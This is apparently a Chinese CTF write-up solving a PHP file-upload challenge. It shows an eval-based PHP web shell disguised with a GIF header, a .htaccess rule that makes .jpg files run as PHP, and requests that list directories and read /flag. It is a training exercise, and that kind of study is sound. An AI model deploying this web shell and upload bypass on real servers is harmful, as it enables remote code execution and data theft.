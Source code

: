 ![[Pasted image 20221107195420.png]]

先随便传个png上去试试

![[Pasted image 20221107200358.png]]

经过一番尝试发现接受jpeg类型

![[Pasted image 20221107200345.png]]

改为html风格发现上传成功

![[Pasted image 20221107200720.png]]
```html
GIF98a
<script language='php'>eval($_GET['cmd']);</script>
```
尝试上传.htaccess，将对jpg文件的访问方式修改

![[Pasted image 20221107201553.png]]
```
AddType application/x-httpd-php .jpg
```
访问
```php
/upload/xxx/tmp.jpg?cmd=phpinfo();
```
![[Pasted image 20221107201905.png]]

成功上传
由于`system`被ban，通过`scandir`来查看目录
```php
/?cmd=var_dump(scandir('/'));
```
![[Pasted image 20221107202258.png]]

最后用`file_get_contents`读取
```php
/?cmd=var_dump(file_get_contents('/flag'));
```
![[Pasted image 20221107202336.png]]

学到的知识用上了，开心QwQ

#Web #文件上传 #RCE #PHP #绕过 